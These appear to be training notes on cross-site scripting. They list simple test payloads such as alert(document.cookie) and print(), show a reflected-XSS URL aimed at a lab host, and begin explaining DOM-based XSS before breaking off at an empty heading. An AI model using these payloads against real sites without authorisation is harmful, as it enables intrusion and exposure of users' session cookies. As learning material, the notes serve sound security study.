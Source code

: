 # **XSS Testing Payloads**

## Simple tester payload

```html
<script>alert(window.origin)</script>
```

## plaintext tester payload

```html
<plaintext>
```

## Pop-Up-Print-Dialog Payload

```html
<script>print()</script>
```

## Showing Cookie payload

```html
<script>alert(document.cookie)</script>
```

# Considerations - Reflected XSS

If the payload request method is GET, you can copy the full URL and open it, and you payload will be executed.

```html
http://94.237.60.154:39241/index.php?task=<script>alert(document.cookie)</script>
```

# DOM-Based XSS

## Considerations

if we add a input `test` item, we would notice that no HTTP requests are being made (Network-Developer Tools). We see that the input parameter in the URL is using a hashtag `#` for the item we added, which means that this is a client-side parameter that is completely processed on the browser.

Furthermore, if we look at the page source by hitting [`CTRL+U`], we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button, which is after the page source is retrieved by our browser,

## DOM Based-Example
